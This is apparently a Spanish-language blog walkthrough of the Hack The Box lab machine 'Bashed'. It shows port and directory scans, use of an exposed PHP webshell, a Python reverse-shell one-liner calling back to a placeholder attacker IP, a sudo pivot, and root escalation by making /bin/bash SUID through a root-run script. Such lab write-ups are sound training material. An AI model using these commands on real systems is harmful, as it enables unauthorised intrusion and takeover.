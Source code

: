 ```yaml
---
layout: post
title: Bashed
subtitle: Plataforma HTB Dificultad Fácil
cover-img: /assets/img/irkedpque.png
thumbnail-img: /assets/img/irkedpque.png
share-img: /assets/img/Irked.png
author: Elmili72
---
```

![image](https://github.com/user-attachments/assets/3ba96632-5c35-4e79-bd54-6c4e495fbabb)

## 1. Escaneo general de puertos

Primero hacemos un ping para ver si tenemos conexión con la máquina y que sistema operativo utiliza:
```bash
$ ping -c 1 10.10.10.68                               
PING 10.10.10.68 (10.10.10.68) 56(84) bytes of data.
64 bytes from 10.10.10.68: icmp_seq=1 ttl=63 time=125 ms

--- 10.10.10.68 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 124.645/124.645/124.645/0.000 ms
```

Después de comprobar que tenemos conexión con el equipo realizamos el escaneo general.

```bash
$ sudo nmap -sS -p- --min-rate 5000 -vvv -n -Pn 10.10.10.68 -oG allports 
[sudo] contraseña para elmili: 
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-14 02:04 CEST
Initiating SYN Stealth Scan at 02:04
Scanning 10.10.10.68 [65535 ports]
Discovered open port 80/tcp on 10.10.10.68
Completed SYN Stealth Scan at 02:04, 18.16s elapsed (65535 total ports)
Nmap scan report for 10.10.10.68
Host is up, received user-set (0.12s latency).
Scanned at 2025-04-14 02:04:21 CEST for 18s
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack ttl 63

Read data files from: /usr/share/nmap
```

## 2. Escaneo específico de los puertos encontrados

Tras descubrir los puertos abiertos hacemos un escaneo específico al puerto 80 (HTTP), para conocer las versiones y los servicios que corren en el puerto.

```bash
$ nmap -sCV -p80 10.10.10.68 -oN escaneo                              
Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-14 02:05 CEST
Nmap scan report for 10.10.10.68
Host is up (0.12s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Arrexel's Development Site
|_http-server-header: Apache/2.4.18 (Ubuntu)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.11 seconds
```

## 3. Reconocimiento del sitio web (HTTP)

Vemos un blog que habla del desarrollo de una webshell hecha con php para pentesting. Y de hecho encontramos un link a github de como está montada.

![Pasted image 20250414020652](https://github.com/user-attachments/assets/cafc4848-7ed6-4c20-a7ed-50319e792dac)

![Pasted image 20250414020716](https://github.com/user-attachments/assets/eace1ce3-eb0e-49a9-b71c-2076196da6d1)

## 4. Escaneo de directorios

Realizamos un escaneo de subdirectorios por si pudiera haber algo interesante subido (como por ejemplo el proyecto de github :D).

```bash
$ gobuster dir -u http://10.10.10.68 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 200 -x php,html,js
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.68
[+] Method:                  GET
[+] Threads:                 200
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              html,js,php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/uploads              (Status: 301) [Size: 312] [--> http://10.10.10.68/uploads/]
/about.html           (Status: 200) [Size: 8193]
/php                  (Status: 301) [Size: 308] [--> http://10.10.10.68/php/]
/css                  (Status: 301) [Size: 308] [--> http://10.10.10.68/css/]
/contact.html         (Status: 200) [Size: 7805]
/dev                  (Status: 301) [Size: 308] [--> http://10.10.10.68/dev/]
/index.html           (Status: 200) [Size: 7743]
/js                   (Status: 301) [Size: 307] [--> http://10.10.10.68/js/]
/config.php           (Status: 200) [Size: 0]
/fonts                (Status: 301) [Size: 310] [--> http://10.10.10.68/fonts/]
/single.html          (Status: 200) [Size: 7477]
/scroll.html          (Status: 200) [Size: 10863]
```

Y efectivamente vemos algún subdirectorio interesante como "/dev" en el que encontramos efectivamente la webshell de nuestro amigo Arrexel.

![Pasted image 20250414021112](https://github.com/user-attachments/assets/ca014ffe-435b-4bc1-a9a4-6572acec8902)

![Pasted image 20250414021149](https://github.com/user-attachments/assets/6e113b3f-1d80-4be3-9c55-dd41dcec4045)

## 5. Intrusión

Una vez tenemos la webshell funcional podemos lanzarnos una shell a nosotros mismos para ganar acceso al equipo y poder pivotar entre los usuarios que haya.

```bash
# En una terminal
nc -lnvp <puerto_atacante>
```

```bash
# En la webshell
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<ip_atacante>",<puerto_atacante>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'
```

Vemos dos directorios, en el directorio "arrexel" tenemos permisos de lectura y en el tenemos el archivito de la flag "users.txt". Primera parte hecha.

```bash
www-data@bashed:/home$ ls
arrexel  scriptmanager
```

```bash
www-data@bashed:/home$ cd arrexel/
www-data@bashed:/home/arrexel$ ls
user.txt
www-data@bashed:/home/arrexel$ cat user.txt
{a14ff9b051a66fc4e430bb948a95f494}
```

## 6. Pivoting

Ahora para realizar el pivoting realizamos un típico sudo -l y vemos que podemos "generar" una bash del usuario scriptmanager simplemente desde el usuario "www-data" .

```bash
www-data@bashed:/home/arrexel$ sudo -l
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
```

![Pasted image 20250414021942](https://github.com/user-attachments/assets/a3d9cba3-e7c8-45eb-9cfe-5717dad6908c)

## 7. Escalada de privilegios

Una vez somos el usuario "scriptmanager" buscamos posibles archivos con permisos SUID que nos permitan hacer la escalada. Pero nada.

```bash
scriptmanager@bashed:/home/arrexel$ find / -perm -4000 2>/dev/null
/bin/mount
/bin/fusermount
/bin/su
/bin/umount
/bin/ping6
/bin/ntfs-3g
/bin/ping
/usr/bin/chsh
/usr/bin/newgrp
/usr/bin/sudo
/usr/bin/chfn
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/vmware-user-suid-wrapper
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
```

Buscando un poco he visto que hay un programa de python ejecutandose desde el usuario root, pero en el que tenemos permisos de escritura con el usuario "scriptmanager", el archivo "test.py".

![Pasted image 20250414022155](https://github.com/user-attachments/assets/384b21ac-7ec5-4455-a647-6e05fb06ee6c)

![Pasted image 20250414022211](https://github.com/user-attachments/assets/31b18402-c388-44ea-9933-70d3c33f156a)
![Pasted image 20250414022226](https://github.com/user-attachments/assets/fc9c1294-5d98-4731-9be6-807c65b097e4)

Pues cogemos este archivo y lo modificamos de la siguiente manera para otorgarle permisos SUID a "/bin/bash" y poder generar una bash con privilegios sin problema.

![Pasted image 20250414022337](https://github.com/user-attachments/assets/17183db7-bfb9-4867-ac85-98134bd53d9b)

![Pasted image 20250414022409](https://github.com/user-attachments/assets/e3971c76-8dfc-4e49-8642-b34088ea507e)

Y ya tendríamos nuestra flag.

```bash
scriptmanager@bashed:/scripts$ bash -p
bash-4.3# whoami
root
bash-4.3# cat /root/root.txt
{5c47a895a691a110783393957339f985}
```

¡Espero que os haya gustado y os haya servido de ayuda! ¡Hasta el próximo writeup!
